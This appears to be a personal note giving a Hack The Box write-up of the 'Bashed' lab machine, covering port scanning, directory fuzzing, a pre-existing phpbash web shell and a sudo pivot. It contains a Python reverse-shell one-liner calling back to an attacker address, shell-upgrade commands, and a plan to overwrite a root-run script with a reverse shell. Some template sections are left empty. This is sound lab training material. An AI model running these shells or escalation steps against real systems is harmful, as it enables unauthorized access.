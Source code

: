 ```yaml
---
creation date: May 30th 2023
last modified date: May 30th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🎌  

# [[HTB - Bashed]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT   STATE SERVICE
80/tcp open  http
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80
- This pulls up a site that talks about a pentest tool that was designed on this server meaning it should be here somewhere!!
- Running a [[ffuf]] on the site we find a few subdomains that listed below:
```bash
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.164.26/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 50ms]
    * FUZZ: images

[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 47ms]
    * FUZZ: uploads

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 43ms]
    * FUZZ: php

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 45ms]
    * FUZZ: css

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 41ms]
    * FUZZ: dev

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 47ms]
    * FUZZ: js

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 40ms]
    * FUZZ: fonts

[Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 40ms]
    * FUZZ: 

[Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 45ms]
    * FUZZ: server-status
```
- Checking them all out we found our `phpbash.php` file that was talked about being under: `/dev/phpbash.php`


---

# Exploitation
## phpbash.php
- The site had a backdoor on it already using this we are able to have a shell to the sever.


---

# Lateral Movement to user
## Local Enumeration
- User: `www-data`
	- **sudo -l**
		- `(scriptmanager : scriptmanager) NOPASSWD: ALL`

- User: `scriptmanager`
	- Located a directory at: `/scripts` that this user can read-write-execute to
		- `test.py`
			- scriptmanager is owner
			- Looks like this edits the `test.txt` file meaning that it must have root access at some point
			- Changed this file out with a reverse shell: ![[Reverse Shell#Python]]
		- `test.txt`
			- root is owner

## Lateral Movement vector
- Initial shell at `http://$RHOST/dev/phpbash.php` gives us access to user: **www-data**
	- From this shell we can establish a more stable environment by calling back to our machine with:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.134",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Then upgrade the shell for a few more amenities:
```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Run in the shell
export TERM=xterm-256color # whatever your original $TERM value is && Run in shell
ctrl + z
stty raw -echo ;fg # Run on our machine
```

- We located that www-data user can run sudo commands as `scriptmanager` this means we can spawn a shell under this user:
```bash
sudo -u scriptmanager /bin/bash
```



---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot
user.txt
ec866881e77adb52c38db1456ceff191

root.txt
63d4bc81e56d6377936d9e5098e0a5df

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 30th 2023 (05:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
